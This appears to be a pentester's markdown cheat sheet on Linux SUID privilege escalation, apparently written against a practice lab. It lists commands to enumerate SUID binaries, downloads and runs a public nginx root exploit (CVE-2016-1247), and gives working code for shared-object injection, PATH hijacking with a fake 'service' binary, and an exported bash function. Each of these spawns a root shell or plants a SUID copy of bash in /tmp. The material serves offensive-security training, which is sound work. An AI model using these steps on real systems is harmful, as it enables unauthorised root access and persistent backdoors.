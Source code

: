 #### Detection

Files with SUID set run with higher privileges.  Can be found with "s"  on permissions.

-rws-rw-r--

Search for files that have SUID set:
```
find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} + 2>/dev/null | awk '$NF !~ /\/(bin|sbin|usr\/bin|usr\/sbin|lib|lib64|dev|opt)\// {print "\033[1;31m[!] Suspicious SUID/SGID:\033[0m", $0} $NF ~ /\/(bin|sbin|usr\/bin|usr\/sbin|lib|lib64|dev|opt)\// {print "[+] Normal:", $0}'
```


```bash - kali
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
OR
```bash - kali
find / -perm -u=s -type f 2>/dev/null
```


#### suid3num.py

https://gtfobins.github.io/#+suid

```bash - kali
wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py
```

![[Python#Server]]

```bash - kali
python suid3num.py
```

#### Shared Objection injection
```bash - kali
find / -type f -perm -04000 -ls 2>/dev/null
```


```bash - kali
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

The idea here is to find where we have write privileges, overwrite one of these files with our malicious code.  In this example, that file is /home/user/.config/libcalc.so


libcalc.c
```c - kali
#include <stdio.h>
#include <stdlib.h>


static void inject() __attribute__((constructor));

void inject () {
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Verify the output path actually exists.  If not, make it.
Example /home/user/.config

```bash - kali
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
```

Now just run the original bin:

```bash - kali
/usr/local/bin/suid-so
```

#### CVE-2016-1247 Binary Symlinks
![[3._Automated Tools#Linux Exploit Suggester]]

See if the target has unpatched version of nginx:

```bash - target
dpkg -l | grep nginx
```

```bash - kali
wget https://raw.githubusercontent.com/xl7dev/Exploit/master/Nginx/nginxed-root.sh
```

![[Python#Server]]

```bash - kali
./nginxed-root.sh /var/log/nginx/error.log
```

Logs must be rotated before exploit works.


#### Environmental Variables (Example 1)
```bash - kali
env
```

```bash - kali
find / -type f -perm -04000 -ls 2>/dev/null
```

/usr/local/bin/suid-env

```bash - kali
strings /usr/local/bin/suid-env
```

We see at the bottom it is trying to start Apache by using the service binary.  We will create a malicious service binary.

```bash - kali
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

```bash - kali
gcc /tmp/service.c -o /tmp/service
```

```bash - kali
export PATH=/tmp:$PATH
```

Notice now, that /tmp is first on the list when it looks for binary's.

```bash - kali
/usr/local/bin/suid-env
```

#### Environmental Variables (Example 2)

```bash - kali
strings /usr/local/bin/suid-env2
```

This one uses services located in /usr/sbin/service.  

```bash - kali
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

```bash - kali
export -f /usr/sbin/service
```

